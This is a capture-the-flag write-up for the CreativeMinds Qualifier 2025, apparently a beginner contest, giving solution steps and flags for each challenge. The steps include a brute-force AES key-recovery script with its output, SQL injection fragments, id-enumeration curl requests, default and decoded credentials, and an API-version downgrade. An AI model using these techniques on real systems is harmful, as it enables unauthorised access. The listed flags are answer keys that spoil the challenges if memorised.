 # CreativeMinds Qualifier 2025
https://creativeminds.ruhr/

## Sanity Check
- Just enter the flag from the task description
- `flag{This_is_your_first_flag_Copy_me!}`

## Flag Salad
- Rotate by 3 (caesar cipher)
- `flag{ROMaine_Lettuce_topped_with_crunched_microchips_and_snake_oil}`

## Welcome to CyberKitten University!
- Flag in source code of the webpage
- `flag{Bachelor_of_Science_in_Caterating_Feline_Images}`

## Milky Privacy 
- Open privacy notice
- Check the cookies that have been set
- `flag{This_purr-fect_cookie_is_ev3n_b3tter_with_milk!}`

## Am I requesting too much?
- Write a python script e.g.
```python
import requests

# Base URL and port
base_url = "http://challs.creativeminds.ruhr:40406"

# Starting point
chain = "start"


while True:
    try:
        # Make the request to the server
        response = requests.get(f"{base_url}/flag?chain={chain}")
        
        # Check the response status
        if response.status_code != 200:
            print(f"Error: Received status code {response.status_code}")
            break

        # Parse the response
        data = response.text
        print(f"Response: {data}")
        
        # Check for stopping condition (e.g., success message or no 'chain' key)
        if "Congratulations" in data or "Done" in data or "flag" in data:
            print("Challenge completed!")
            break

        # Update the chain for the next request
        chain = data.strip()  # Assuming the server returns the next chain ID directly
    except Exception as e:
        print(f"An error occurred: {e}")
        break
```
- `flag{py7h0n_1s_mY_f4V0r17e_t00L_b0x_or_by_h4nd_but_th4t_w0uld_b3_p4in}`

## The library is open
- `curl http://challs.creativeminds.ruhr:40407/api?id=1`
- `curl http://challs.creativeminds.ruhr:40407/api?id=2`
- `curl http://challs.creativeminds.ruhr:40407/api?id=3`
- `flag{r34D1n9_15_fUND4m3Nt4l_4_ev3ry0ne}`

## Crypt Fail
- The key generation based on a random value is weak, the possible key space is small. Write a script to exploit.
- `python3 -m venv my_env`
- `source my_env/bin/activate`
- `pip install pycryptodome`
```python
from Crypto.Cipher import AES
from pathlib import Path

def generate_key(t):
    """Recreates the key based on the random value t."""
    state = [(t >> 6) ^ 0xff, ((t << 2) & 0xff) >> 6]
    keyl = b''
    keyr = b''
    for i in range(8):
        state[0] = state[0] ^ ((t >> i ^ t << i) & 0xff)
        state[1] = state[1] ^ ((t << i ^ t >> i) & 0xff)
        keyl += state[0].to_bytes(1, 'little')
        keyr += state[1].to_bytes(1, 'little')
    return keyl + keyr

def brute_force_decrypt(input_filename):
    """Brute-forces the key and decrypts the file."""
    data = open(input_filename, 'rb').read()
    nonce, ciphertext = data[:16], data[16:]
    
    for t in range(256):
        try:
            key = generate_key(t)
            cipher = AES.new(key, AES.MODE_EAX, nonce=nonce)
            plaintext = cipher.decrypt(ciphertext)
            # Check if the plaintext is valid (e.g., contains readable characters)
            if plaintext.isascii() and "f" in plaintext.decode('ascii'):
                print(f"Key found! t={t}")
                print(f"Decrypted message: {plaintext.decode('ascii')}")
                return
        except Exception as e:
            # Ignore decryption errors
            print(e)
            pass
    print("No valid key found.")

# Example usage
brute_force_decrypt("grade_enc.txt")
```
- Use the script to decrypt the file and obtain the flag
```
Key found! t=124
Decrypted message: You did very well, better work than I have ever seen!
You get 10/10 points and a bonus flag: 
flag{k3y_g3naration_1s_h4rd_ev3rywh3re}
```
- `flag{k3y_g3naration_1s_h4rd_ev3rywh3re}`


## Free Swag
- Add a negative amount of an item to the cart
- Flag at bottom of the page where total is shown
- `flag{g37_a_20%_d15C0UN7_W17h_0UR_c0D3_VIRTUALMEOW20}`

## E-learning with Poodle
- Check the manual
- Use the mentioned credentials `goodboi` and `BorkBorkWoof123`
- `flag{d3fauL7_pA22W0rD_ar3_n3v3r_a_g00d_id34}`

## E-learning with Zoodle
- Click on 'Dashboard'
- `http://challs.creativeminds.ruhr:40412/v2/dashboard`
- change to `http://challs.creativeminds.ruhr:40412/v1/dashboard`
- `flag{E4t_m0re_gr33ns_4nd_disabl3_y0ur_0ld_APIs_!}`

## E-learning with Noodle
- Decode all Base64 strings and check where 2FA = false
- 2nd user does not have 2FA use the credentials after decoding - `PestoPrincess` and `Bas1licious&`
- `flag{bAsE64_iS_mY_fAv0rItE_eNcRyPtIoN_aLgOrItHm}`

## SQL 101
- `SELECT * FROM information_schema.tables`
- `SELECT * FROM flag`
- `flag{sql_1s_0ft3n_us3d_1n_pr4ctice}`

## SQL Injection 101 
- `* from information_schema.tables --`
- `* from flag --`
- `flag{1nj3ctions_are_a_v3ry_c0mm0n_vulnerability}`

